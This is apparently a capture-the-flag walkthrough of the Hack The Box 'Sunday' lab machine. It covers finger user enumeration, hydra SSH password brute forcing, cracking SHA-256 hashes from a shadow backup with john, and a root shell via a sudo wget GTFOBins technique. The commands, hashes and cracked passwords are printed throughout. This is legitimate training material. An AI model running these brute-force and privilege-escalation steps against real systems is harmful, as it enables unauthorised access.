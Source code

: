 # Connect to the machine 

use openvpn or another vpn to connect to the machine as follows 

```shell
openvpn lab_acountname.ovpn
```

after that try to ping the machine to make sure you are connected 


```shell
ping 10.10.10.76
```

if you get response then we are ready to enumerate


# Recon

 using Nmap with default scripts with default scripts and with services versions

```shell
nmap -sV -sC 10.10.10.76
```


which results to 

```shell

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-19 03:02 EDT
Nmap scan report for sunday.htb (10.10.10.76)
Host is up (0.065s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
79/tcp  open  finger?
|_finger: No one logged on\x0D
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie: 
|_    Login Name TTY Idle When Where
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port79-TCP:V=7.94%I=7%D=8/19%Time=64E06934%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,12,"No\x20one\x20logged\x20on\r\n")%r(GetRequest<i cutted the rest here >

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 130.87 seconds
```


to summery this result we have 4 ports open :

1. 79 finger
2. 111 rpcbind
3. 515 printer

# Enumeration

As I am not familiar with these Services i will search the internet for exploitation for each and started with finger :

## finger 

i found this [link](https://book.hacktricks.xyz/network-services-pentesting/pentesting-finger) usefull as it explains what the service is used for and how to enumerate it , but it looks like we will get some usernames from this service.

trying to Enumerate it with 
```shell
echo "root" | nc -vn 10.10.10.76 79

->
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
root     Super-User            console      <Oct 14, 2022>
```

it looks like the service works and the root user exists.


using this [script](https://pentestmonkey.net/tools/user-enumeration/finger-user-enum) to brute force the service for available users 

```shell
perl finger-user-enum.pl -U  /usr/share/wordlists/rockyou.txt -t 10.10.10.76

```

i got alot of answers as numbers and names and not user names, but i noticed just two users **sunny,sammy** have a when and where value , so i feel that they are the intended users from this service.

i couldnt find usefull information about attacking the other two services so i decided to go back to **recon** and this time using the nmap flag **-p-** which returned more nonstandard port

and found ssh on 22022 

so i ll use this to try to login in to the account sunny and then sammy

## bruteforcing


i tried brute-forcing the ssh service using hydra as follows (i tried different word list till this one worked for me), note that ssh is slow and yo cant use a huge wordlist :

```shell
hydra -l sunny -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt ssh://10.10.10.76:22022
```

which gaved me the passwrd **sunday**

## ssh

```shell
ssh sunny@10.10.10.76 -p 22022
```

and we got an initial foothold :)

finding the user.txt file 
```shell

find /home -name "user.txt"

->
/home/sammy/user.txt
```

and you can get the flag with the cat command

```shell
cat /home/sammy/user.txt 
```

## Privilege Escalation

using sudo -l we can see our sudo privileges 

```shell
sudo -l

->
User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll

```

running the script as sudo 
```shell
sudo /root/troll
testing
uid=0(root) gid=0(root)
```

nothing usefull and we dont have permission over the file as it is in the root directory.

looking at the history file with the command `history` showed an interesting file for backup **/backup/shadow.backup**

```shell

mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

```

it looks like a backup for the /etc/shadow file , we can see from the \$5\$  that it is SHA-256 and we can try bruteforcing it using john the ripper 

```shell 
john shadow --wordlist=/usr/share/wordlists/rockyou.txt 

->
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (sammy)     
1g 0:00:00:38 DONE (2023-08-19 04:25) 0.02631g/s 5376p/s 5376c/s 5376C/s domonique1..canpanita
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
(shadow is a copy of the backup file i copied to my attack host )


now we have the host sammy, lets log as sammy using 
```shell
su sammy
```

then running 

```shell
sudo -l

->
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```

we can execute wget as root 

going to the site [gtfOBINS](https://gtfobins.github.io/) and searching for wget,
we see that we can get a root shell using the following commands 

```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

and we landed in a root shell :)

and we can read the root flag in 
/root/root.txt
